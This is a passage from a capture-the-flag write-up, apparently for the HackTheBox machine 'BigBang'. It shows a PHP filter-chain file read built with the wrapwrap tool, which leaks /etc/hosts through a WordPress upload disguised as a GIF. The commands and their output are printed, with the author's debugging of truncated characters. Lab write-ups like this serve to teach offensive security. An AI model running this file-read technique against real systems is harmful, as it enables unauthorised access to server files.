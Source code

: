 ![Chain Success](image-20250131065212064)

Now that file has the hosts file:

```bash
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] curl http://blog.bigbang.htb/wp-content/uploads/2025/01/1-7.png -o-
GIF89a127.0.0.1 localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.3      bf9a078
```

It starts with the “GIF89a” which I can ignore.

---

I’m also suspicious of that hostname, which seems short for a Docker container.
I would have expected 12 characters, and it’s seven.
I think the last six characters (five missing in hostname plus trailing newline) might have been lost somehow in the filtering.
To test this, I’ll re-run wrapwrap with a longer prefix:

```bash
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] python wrapwrap.py /etc/hosts "GIF89a0xdf" "" 1000
[!] Ignoring nb_bytes value since there is no suffix  
[+] Wrote filter chain to chain.txt (size=2619).
```

Chain contents:

```
php://filter/convert.base64-encode|...|convert.base64-decode/resource=/etc/hosts
```

After sending that, the resulting image has six more characters of prefix (not exactly sure why “MM” was added after “0xdf”, but filters are weird), and six less characters of the file:

```bash
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] curl http://blog.bigbang.htb/wp-content/uploads/2025/01/1-8.png -o-
GIF89a0xdfMM127.0.0.1   localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.3      b
```

This is worth keeping in mind for this file read that I seem to lose the trailing n characters, where n is the number of characters prepended.

I’ll also note that if the filename changes but the prefix doesn’t, the chain from wrapwrap doesn’t change either, other than the end where it says `source=[filename]`.
This saves me from having to run it over and over.

---